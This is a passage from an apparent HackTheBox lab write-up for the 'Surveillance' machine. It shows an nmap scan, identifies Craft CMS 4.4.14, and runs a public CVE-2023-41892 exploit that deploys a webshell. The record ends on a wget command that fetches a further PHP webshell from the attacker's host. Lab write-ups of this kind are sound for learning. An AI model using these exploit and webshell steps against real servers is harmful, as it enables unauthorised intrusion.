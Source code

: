 ```yaml
---
categories: [HackTheBox]
tags: [ Public Exploit, Port Forwarding, PrivEsc, Password Cracking]
media_subpath: /assets/images/
image:
  alt: Linux Medium Level Machine 🧭
  width: "1200"
  height: "630"
  path: https://pbs.twimg.com/media/GAwK6LdWcAQTTOO.jpg
---
```

## Port Scan Results ⤵️
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Surveillance]
└─$ sudo nmap -sC -sV -T4 -p- -oN Nmap_Results.txt 10.10.11.245 -Pn
Nmap scan report for 10.10.11.245
Host is up (0.29s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
22/tcp    open     tcpwrapped
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp    open     tcpwrapped
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
20485/tcp filtered unknown
56302/tcp filtered unknown

```
{: .nolineno}
## Web Enumeration ⤵️

Upon checking port 80 and being redirected to `surveillance.htb`, I set the hosts file and loaded the site:
![Image](Pasted%20image%2020240218223934.png)
_surveillance HTB_
While accessing port 80:
![Image](Pasted%20image%2020240218224103.png)
_While hovering over `Craft CMS`, I identified its version and the source code._
Further reconnaissance revealed a potential exploit related to `Craft CMS` version 4.4.14, vulnerable to CVE-2023-41892. An exploit enabling remote code execution was discovered ([Exploit](https://github.com/Faelian/CraftCMS_CVE-2023-41892/tree/main)).

Resulting in remote code execution, providing access to the shell:

```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Surveillance]
└─$ python3 exploit.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you are done

[!] Enjoy your shell

> wget http://10.10.14.81/php_webshell.php
```